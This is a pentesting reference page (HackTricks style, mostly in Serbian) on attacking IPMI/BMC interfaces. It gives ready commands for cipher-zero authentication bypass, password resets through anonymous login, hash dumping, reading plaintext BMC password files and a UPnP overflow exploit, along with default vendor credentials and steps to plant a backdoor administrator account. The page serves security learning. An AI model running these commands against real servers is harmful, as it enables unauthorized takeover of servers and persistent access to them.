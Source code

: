 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}


## Basic Information

### **Overview of IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** nudi standardizovan pristup za daljinsko upravljanje i nadgledanje računarskih sistema, nezavisno od operativnog sistema ili stanja napajanja. Ova tehnologija omogućava sistem administratorima da upravljaju sistemima na daljinu, čak i kada su isključeni ili neodgovaraju, i posebno je korisna za:

- Pre-OS boot konfiguracije
- Upravljanje isključenjem
- Oporavak od sistemskih grešaka

IPMI je sposoban da nadgleda temperature, napone, brzine ventilatora i napajanja, uz pružanje informacija o inventaru, pregled hardverskih logova i slanje upozorenja putem SNMP-a. Osnovni uslovi za njegov rad su izvor napajanja i LAN konekcija.

Od svog uvođenja od strane Intela 1998. godine, IPMI je podržan od strane brojnih dobavljača, poboljšavajući mogućnosti daljinskog upravljanja, posebno sa podrškom verzije 2.0 za serijski prenos preko LAN-a. Ključne komponente uključuju:

- **Baseboard Management Controller (BMC):** Glavni mikro-kontroler za IPMI operacije.
- **Komunikacione magistrale i interfejsi:** Za internu i eksternu komunikaciju, uključujući ICMB, IPMB i razne interfejse za lokalne i mrežne konekcije.
- **IPMI Memorija:** Za čuvanje logova i podataka.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Podrazumevani port**: 623/UDP/TCP (Obično je na UDP-u, ali može biti i na TCP-u)

## Enumeration

### Discovery
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Možete **identifikovati** **verziju** koristeći:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Ranljivosti

U oblasti IPMI 2.0, značajna sigurnosna slabost otkrivena je od strane Dana Farmera, izlažući ranjivost kroz **cipher type 0**. Ova ranjivost, dokumentovana u detalje na [istraživanju Dana Farmera](http://fish2.com/ipmi/cipherzero.html), omogućava neovlašćen pristup sa bilo kojom lozinkom pod uslovom da je ciljana validna korisnička adresa. Ova slabost je pronađena kod raznih BMC-ova proizvođača kao što su HP, Dell i Supermicro, sugerišući široko rasprostranjen problem unutar svih IPMI 2.0 implementacija.

### **IPMI Zaobilaženje Autentifikacije putem Cipher 0**

Da bi se otkrila ova slabost, može se koristiti sledeći Metasploit pomoćni skener:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Eksploatacija ove greške je moguća pomoću `ipmitool`, kao što je prikazano u nastavku, što omogućava listanje i modifikaciju korisničkih lozinki:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Autentifikacija Udaljeno Preuzimanje Hash-a Lozinke**

Ova ranjivost omogućava preuzimanje zasoljenih hash-ova lozinki (MD5 i SHA1) za bilo koje postojeće korisničko ime. Da biste testirali ovu ranjivost, Metasploit nudi modul:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI Anonymous Authentication**

Podrazumevana konfiguracija u mnogim BMC-ima omogućava "anonimni" pristup, karakterisan nul korisničkim imenom i lozinkom. Ova konfiguracija se može iskoristiti za resetovanje lozinki imenovanih korisničkih naloga koristeći `ipmitool`:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI Lozinke u Čistom Tekstu**

Kritična dizajnerska odluka u IPMI 2.0 zahteva skladištenje lozinki u čistom tekstu unutar BMC-a u svrhe autentifikacije. Skladištenje ovih lozinki od strane Supermicro-a na mestima kao što su `/nv/PSBlock` ili `/nv/PSStore` postavlja značajne bezbednosne brige:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Ranljivost**

Uključivanje UPnP SSDP slušatelja u Supermicro-ovom IPMI firmveru, posebno na UDP portu 1900, uvodi ozbiljan bezbednosni rizik. Ranljivosti u Intel SDK za UPnP uređaje verzije 1.3.1, kako je detaljno opisano u [Rapid7-ovom otkriću](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), omogućavaju pristup root-u BMC-u:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP nasumično generiše podrazumevanu lozinku** za svoj **Integrated Lights Out (iLO)** proizvod tokom proizvodnje. Ova praksa se razlikuje od drugih proizvođača, koji obično koriste **statične podrazumevane akreditive**. Sažetak podrazumevanih korisničkih imena i lozinki za različite proizvode je dat u nastavku:

- **HP Integrated Lights Out (iLO)** koristi **fabricki nasumično generisanu 8-znamenkastu string** kao svoju podrazumevanu lozinku, pokazujući viši nivo sigurnosti.
- Proizvodi poput **Dell-ovog iDRAC, IBM-ovog IMM** i **Fujitsu-ovog Integrated Remote Management Controller** koriste lako pogađajuće lozinke kao što su "calvin", "PASSW0RD" (sa nulom) i "admin" redom.
- Slično, **Supermicro IPMI (2.0), Oracle/Sun ILOM** i **ASUS iKVM BMC** takođe koriste jednostavne podrazumevane akreditive, pri čemu "ADMIN", "changeme" i "admin" služe kao njihove lozinke.


## Accessing the Host via BMC

Administrativni pristup Baseboard Management Controller (BMC) otvara različite puteve za pristup operativnom sistemu hosta. Jednostavan pristup uključuje iskorišćavanje KVM funkcionalnosti BMC-a. To se može uraditi ili ponovnim pokretanjem hosta u root shell putem GRUB-a (koristeći `init=/bin/sh`) ili pokretanjem sa virtuelnog CD-ROM-a postavljenog kao disk za oporavak. Ove metode omogućavaju direktnu manipulaciju diskom hosta, uključujući umetanje backdoor-a, ekstrakciju podataka ili bilo koje potrebne radnje za procenu sigurnosti. Međutim, ovo zahteva ponovno pokretanje hosta, što je značajan nedostatak. Bez ponovnog pokretanja, pristup aktivnom hostu je složeniji i varira u zavisnosti od konfiguracije hosta. Ako fizička ili serijska konzola hosta ostane prijavljena, može se lako preuzeti putem KVM ili serial-over-LAN (sol) funkcionalnosti BMC-a koristeći `ipmitool`. Istraživanje iskorišćavanja zajedničkih hardverskih resursa, poput i2c magistrale i Super I/O čipa, je oblast koja zahteva dalju istragu.

## Introducing Backdoors into BMC from the Host

Nakon kompromitovanja hosta opremljenog BMC-om, **lokalni BMC interfejs se može iskoristiti za umetanje backdoor korisničkog naloga**, stvarajući trajnu prisutnost na serveru. Ovaj napad zahteva prisustvo **`ipmitool`** na kompromitovanom hostu i aktivaciju podrške za BMC drajvere. Sledeće komande ilustruju kako se novi korisnički nalog može ubrizgati u BMC koristeći lokalni interfejs hosta, što zaobilazi potrebu za autentifikacijom. Ova tehnika je primenljiva na širok spektar operativnih sistema uključujući Linux, Windows, BSD, pa čak i DOS.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Produbite svoje znanje o **Mobilnoj Bezbednosti** sa 8kSec Akademijom. Savladajte iOS i Android bezbednost kroz naše kurseve koji se mogu pratiti sopstvenim tempom i dobijite sertifikat:

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
